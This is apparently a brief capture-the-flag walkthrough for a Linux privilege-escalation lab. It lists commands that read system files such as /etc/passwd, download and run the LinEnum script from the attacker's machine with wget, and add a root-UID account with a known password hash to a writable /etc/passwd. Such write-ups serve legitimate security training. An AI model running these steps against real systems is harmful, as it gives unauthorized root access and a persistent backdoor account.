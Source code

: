 # COMMON LINUX PRIVESC

```
export IP=10.10.8.224
```

```
ssh user3@$IP
password
```

```
cat /etc/passwd 
cat /etc/shell
cat /etc/crontab
```

## LinEnum

In my machine:
```
python3 -m http.server 1234
```
In the taget machine:
```
wget http://MY-IP:1234/LinEnum.sh
chmod 777 LinEnum.sh
./LinEnum.sh | tee linenum.out
```

change to user7:
```
openssl passwd -1 -salt new 123
```
```
su user7
password

nano /etc/passwd

new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash
su new
123
```

And ta-da, superuser mode!

```
sudo -l
```